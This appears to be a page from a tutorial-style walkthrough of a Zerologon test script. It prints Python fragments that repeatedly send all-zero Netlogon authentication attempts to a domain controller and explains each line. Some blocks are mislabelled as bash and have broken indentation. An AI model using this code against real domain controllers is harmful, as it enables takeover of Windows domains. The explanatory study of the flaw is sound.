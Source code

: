Lines 57 - 73
```python

def perform_attack(dc_handle, dc_ip, target_computer):

  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)
    
    if rpc_con == None:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)
	
```

Line 1 is defining where the variables are being passed into for the local function, \\DCNAME is being passed into the dc_handle variable, dc_ip is being passed into dc_ip variable, and dc_name is being passed into the target_computer variable. All of which will be used later, or passed into different modules.



Line 4 sets the variable rpc_con equal to none, this will be kept track of consistently to check and see if authentication is successful, if it's not, the script will continue until 2000 retries is hit. Line 5 is where the actual retries for Zero Logon occurs in the form of a for loop. Line 6 sets the rpc_con variable to the output of a different function called "try_zero_authenticate" with a couple of variables being passed to it, specifically dc_handle, dc_ip, and target_computer. All of which we addressed earlier. The next lines are simply checking if rpc_con is equal to a invalid login attempt, if it is, print =, if not, print success, if 2000 retries is hit: print attack failed.

Lines 20-25
```bash
def try_zero_authenticate(dc_handle, dc_ip, target_computer):

  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)
  
```

Lines 27-40

```bash
 plaintext = b'\x00' * 8
 ciphertext = b'\x00' * 8

  flags = 0x212fffff

   nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,target_computer + '\x00', ciphertext, flags)
```
